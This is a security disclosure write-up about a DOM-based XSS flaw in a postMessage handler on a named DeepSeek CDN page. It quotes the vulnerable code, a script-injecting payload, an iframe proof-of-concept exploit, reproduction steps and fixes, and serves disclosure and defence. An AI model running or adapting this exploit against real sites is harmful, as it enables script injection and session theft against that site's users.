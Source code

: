 ### **DOM-Based XSS Vulnerability Disclosure: DeepSeek.com**

#### **Summary**
During routine analysis, a DOM-based Cross-Site Scripting (XSS) vulnerability was identified on DeepSeek's CDN endpoint: `https://cdn.deepseek.com/usercontent/usercontent.html`. The vulnerability stems from improper handling of `postMessage` events, allowing an attacker to inject malicious scripts into the document context without proper origin validation or input sanitization.

---

#### **Affected URL**
`https://cdn.deepseek.com/usercontent/usercontent.html`

---

#### **Vulnerability Details**
The `postMessage` implementation on the affected endpoint processes messages without verifying their origin or properly sanitizing input. The following code snippet illustrates the root cause of the issue:

```javascript
window.addEventListener("message", (e) => {
    const keys = Object.keys(e.data);
    if (keys.length !== 1) return;
    if (!e.data.__deepseekCodeBlock) return;

    document.open();
    document.write(e.data.__deepseekCodeBlock);
    document.close();

    const style = document.createElement("style");
    style.textContent = "body { margin: 0; }";
    document.head.appendChild(style);
});
```

The function directly writes any `__deepseekCodeBlock` payload into the document using `document.write`, bypassing essential security measures such as:
- **Origin Validation**: No check to ensure the `postMessage` event originates from a trusted source.
- **Input Sanitization**: No filtering or escaping of HTML/JavaScript content in the payload.

---

#### **Proof of Concept (PoC)**

##### **Payload:**
The following `postMessage` payload can exploit the vulnerability to execute arbitrary JavaScript:
```javascript
postMessage(
    { __deepseekCodeBlock: '<script>alert(origin)</script>' },
    "*"
);
```

##### **Exploit Code:**
For easier testing, an iframe-based PoC was created to demonstrate the issue:
```html
<!-- DOM XSS at deepseek.com by nam@namcoder.com -->
<iframe
    width="600px"
    height="600px"
    src="https://cdn.deepseek.com/usercontent/usercontent.html"
    onload="this.contentWindow.postMessage( ({ __deepseekCodeBlock: '<script>alert(origin)</script>'}) ,'*')"
>
</iframe>
```

##### **Impact:**
When this payload is executed:
1. The browser processes the malicious payload.
2. An alert box is displayed showing the `origin`, confirming the ability to inject and execute arbitrary JavaScript.

---

#### **Steps to Reproduce**
1. Open `https://cdn.deepseek.com/usercontent/usercontent.html` in your browser.
2. Open the browser console and execute:
   ```javascript
   window.postMessage(
       { __deepseekCodeBlock: '<script>alert(origin)</script>' },
       "*"
   );
   ```
3. Alternatively, save and load the provided iframe-based exploit code in a browser.

---

#### **Recommendations**
To mitigate this vulnerability, it is critical to:
1. **Validate Message Origin**: Ensure that the `postMessage` event's `origin` matches a trusted domain:
   ```javascript
   if (e.origin !== "https://trusted-origin.com") return;
   ```
2. **Sanitize User Input**: Use a library such as DOMPurify to sanitize the HTML content in `e.data.__deepseekCodeBlock` before inserting it into the DOM.
3. **Avoid `document.write`**: Replace `document.write` with safer DOM manipulation methods like `createElement` and `appendChild`.

---

#### **Timeline**
- **Date of Discovery**: January 31, 2025
- **Reported To DeepSeek**: [Pending]
- **Acknowledgment**: [Pending]
- **Patch Status**: [Pending]

---

#### **Impact Assessment**
This vulnerability allows attackers to execute arbitrary JavaScript in the context of `cdn.deepseek.com`. Potential impacts include:
- Theft of sensitive user data (e.g., cookies or session tokens).
- Defacement or injection of malicious content.
- Further exploitation of users accessing the compromised page.

---

#### **Contact Information**
If you have any questions or need additional details, please feel free to contact me at [your email address].  

